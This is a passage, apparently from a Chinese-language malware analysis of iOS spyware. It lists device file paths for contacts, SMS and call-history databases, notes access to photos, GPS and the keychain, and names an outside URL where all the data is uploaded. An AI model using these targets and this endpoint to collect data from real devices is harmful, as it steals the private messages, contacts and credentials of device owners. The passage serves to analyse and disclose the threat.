**/var/mobile/Library/AddressBook/AddressBook.sqlitedb-shm**
**/var/mobile/Library/AddressBook/AddressBook.sqlitedb-wal**
**/var/mobile/Library/SMS/sms.db**
**/var/mobile/Library/SMS/sms.db-shm**
**/var/mobile/Library/SMS/sms.db-wal**
**/var/wireless/Library/CallHistory/call_history.db**

```

所有图像都位于`/private/var/mobile/Media/DCIM/100APPLE/`目录。此外，应用程序还会访问 GPS 信息和钥匙串。

所有数据随后被上传到 http://xsser.com/TargetUploadGPS.aspx:


